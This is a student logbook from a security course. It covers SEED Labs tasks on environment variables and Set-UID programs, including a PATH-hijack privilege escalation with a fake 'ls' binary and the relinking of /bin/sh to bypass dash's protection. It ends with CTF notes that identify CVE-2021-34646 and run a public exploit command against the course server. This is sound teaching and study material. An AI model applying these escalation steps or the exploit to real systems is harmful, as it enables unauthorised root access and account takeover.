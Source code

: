 ## Week 4 Logbook

## Seed Labs

### Task 1

```bash
[11/07/21]seed@VM:~/.../Labsetup$ printenv PWD
/home/seed/Share/seed-labs/category-software/Environment_Variable_and_SetUID/Labsetup
[11/07/21]seed@VM:~/.../Labsetup$ export MYVAR="Hello world!"
[11/07/21]seed@VM:~/.../Labsetup$ printenv MYVAR
Hello world!
[11/07/21]seed@VM:~/.../Labsetup$ unset MYVAR
[11/07/21]seed@VM:~/.../Labsetup$ printenv MYVAR
[11/07/21]seed@VM:~/.../Labsetup$ 
```

### Task 2

The code in `myprintenv.c` prints the list the environment variables of the child process, in a similar way to the `printenv` command (NAME=value). We use the redirection operator (`>`) to redirect `stdout` to `file1.txt`.

After changing the code as suggested in the lab notes and compiling, the environment variables of the parent are printed (or in this case, redirected to `file2.txt`).

```bash
[11/07/21]seed@VM:~/.../Labsetup$ diff file1.txt file2.txt 
[11/07/21]seed@VM:~/.../Labsetup$
```

Since the `diff` command shows that both files are the same, we can conclude that the environment variables of the parent process are inherited by the child process.

### Task 3

When compiling and running the program, we verify that the process generated by `execve` uses the environment variables specified in the third argument of the `execve` call. This is shown by the fact that passing `NULL` as the 3rd argument causes the new `env` process to print nothing, and passing `environ` causes the process to print all the environment variables in `environ`.

```bash
[11/07/21]seed@VM:~/.../Labsetup$ cat task3_file1.txt 
[11/07/21]seed@VM:~/.../Labsetup$ head task3_file2.txt
SHELL=/bin/bash
SESSION_MANAGER=local/VM:@/tmp/.ICE-unix/1925,unix/VM:/tmp/.ICE-unix/1925
QT_ACCESSIBILITY=1
COLORTERM=truecolor
XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
XDG_MENU_PREFIX=gnome-
GNOME_DESKTOP_SESSION_ID=this-is-deprecated
GNOME_SHELL_SESSION_MODE=ubuntu
SSH_AUTH_SOCK=/run/user/1000/keyring/ssh
XMODIFIERS=@im=ibus
[11/07/21]seed@VM:~/.../Labsetup$
```

### Task 4

As we can see, the environment variables of the calling process are passed to the program that is invoked using `system()`.

```bash
[11/07/21]seed@VM:~/.../Labsetup$ head task4.txt
LESSOPEN=| /usr/bin/lesspipe %s
USER=seed
SSH_AGENT_PID=1884
XDG_SESSION_TYPE=x11
SHLVL=1
HOME=/home/seed
OLDPWD=/home/seed/Share/seed-labs
DESKTOP_SESSION=ubuntu
GNOME_SHELL_SESSION_MODE=ubuntu
GTK_MODULES=gail:atk-bridge
[11/07/21]seed@VM:~/.../Labsetup$ 
```

### Task 5

```bash
[11/07/21]seed@VM:~/.../tp4$ gcc task5.c -o foo
[11/07/21]seed@VM:~/.../tp4$ ls -la
total 32
drwxrwxr-x 2 seed seed  4096 Nov  7 12:14 .
drwxrwxr-x 3 seed seed  4096 Nov  7 12:13 ..
-rwxrwxr-x 1 seed seed 16768 Nov  7 12:14 foo
-rw-rw-r-- 1 seed seed   182 Nov  7 12:14 task5.c
[11/07/21]seed@VM:~/.../tp4$ sudo chown root foo
[11/07/21]seed@VM:~/.../tp4$ sudo chmod 4755 foo
[11/07/21]seed@VM:~/.../tp4$ ls -la
total 32
drwxrwxr-x 2 seed seed  4096 Nov  7 12:14 .
drwxrwxr-x 3 seed seed  4096 Nov  7 12:13 ..
-rwsr-xr-x 1 root seed 16768 Nov  7 12:14 foo
-rw-rw-r-- 1 seed seed   182 Nov  7 12:14 task5.c
[11/07/21]seed@VM:~/.../tp4$ 
```

The owner of the `foo` file changed from `seed` to `root` and the file permission changed to `-rwsr-xr-x` (the setuid bit for the `root` user is set, to allow normal users to execute the file with the owner's privileges).

```bash
[11/07/21]seed@VM:~/.../tp4$ printenv | grep "LD_LIBRARY_PATH"
[11/07/21]seed@VM:~/.../tp4$ foo > file1.txt
[11/07/21]seed@VM:~/.../tp4$ export PATH="/bin"
[11/07/21]seed@VM:~/.../tp4$ export LD_LIBRARY_PATH="/bin"
[11/07/21]seed@VM:~/.../tp4$ export MYVAR="Hello world!"
[11/07/21]seed@VM:~/.../tp4$ ./foo > file2.txt
[11/07/21]seed@VM:~/.../tp4$ diff file1.txt file2.txt 
7a8
> MYVAR=Hello world!
43c44
< PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.
---
> PATH=/bin
[11/07/21]seed@VM:~/.../tp4$ printenv | grep "LD_LIBRARY_PATH"
LD_LIBRARY_PATH=/bin
[11/07/21]seed@VM:~/.../tp4$ 
```

The `PATH` and `MYVAR` environment variables are passed to the Set-UID child process, but the `LD_LIBRARY_PATH` variable is not, despite appearing in the output of `printenv`. This indicates that some environment variables will be ignored by the dynamic linker when running a program owned by `root` with `setuid`. The `LD_LIBRARY_PATH` tells the dynamic linker where to look for the dynamic shared libraries that the program was linked against.


### Task 6

**run_ls.c**
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(){
    printf("run_ls: geteuid=%d\n", geteuid());
    system("ls");
    return 0;
}
```

**ls.c**
```c
#include <stdio.h>
#include <unistd.h>

int main(){
    printf("ls: You have been hacked!\n");
    printf("ls: geteuid=%d\n", geteuid());
    return 0;
}
```

**Bash logs**

```bash
[11/07/21]seed@VM:~$ export PATH=/home/seed:$PATH
[11/07/21]seed@VM:~$ gcc run_ls.c -o run_ls
[11/07/21]seed@VM:~$ sudo chown root run_ls
[11/07/21]seed@VM:~$ sudo chmod 4755 run_ls
[11/07/21]seed@VM:~$ run_ls
run_ls: geteuid=0
Desktop    ls.c      Public    seed-labs  Videos
Documents  Music     run_ls    Share
Downloads  Pictures  run_ls.c  Templates
[11/07/21]seed@VM:~$ gcc ls.c -o ls
[11/07/21]seed@VM:~$ run_ls
run_ls: geteuid=0
ls: You have been hacked!
ls: geteuid=1000
[11/07/21]seed@VM:~$ sudo ln -sf /bin/zsh /bin/sh
[11/07/21]seed@VM:~$ run_ls
run_ls: geteuid=0
ls: You have been hacked!
ls: geteuid=0
[11/07/21]seed@VM:~$ 
```

The `geteuid` C function is used to obtain the effective user ID for that process, which can be used to assess its privileges. If this function returns 0, the process is running with `root` privileges.

As we can see, after changing the `PATH` environment variable, our own malicious `ls` program in `/home/seed` takes precedence over the `ls` command in `/usr/bin` and executes.

However, as mentioned in the lab notes, the `system` function asks the `/bin/sh` program to run the `ls` command. Since in the SEED VM `/bin/sh` is a symbolic link to `/bin/dash`, a countermeasure in this shell program prevents our `ls` program from obtaining root privileges (the effective UID is 1000). Only the original `run_ls` program has root privileges in this case.

After we run the `sudo ln -sf /bin/zsh /bin/sh` command, this countermeasure is no longer in place, and our malicious `ls` program obtains root privileges (`geteuid=0`).

---

## CTF

### Recon

- **Wordpress (v5.8.1)** (most recent version, from 2021-09-08)
- **Plugins**
    - Storefront (v3.9.1)
    - WooCommerce (v5.7.1)
        - `add-to-cart`
        - `cart-fragments`
    - Booster for WooCommerce (5.4.3)
- **Possible User Information**
    - admin
        - links to `localhost:8000`
    - Orval Sanford
        - link to user (`author/orval_sanford`) redirects to shop page
        - username: `orval_sanford`

### Searching for Vulnerabilities

Searching for WooCommerce Booster on Exploit-DB / NVD lead us to [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

### Looking for Exploits

The ExploitDB page for the previously described vulnerability includes a [Python exploit](https://www.exploit-db.com/exploits/50299).

### Exploiting the Vulnerability

```sh
python3 exploit.py http://ctf-fsi.fe.up.pt:5001/my-account/ 1
```
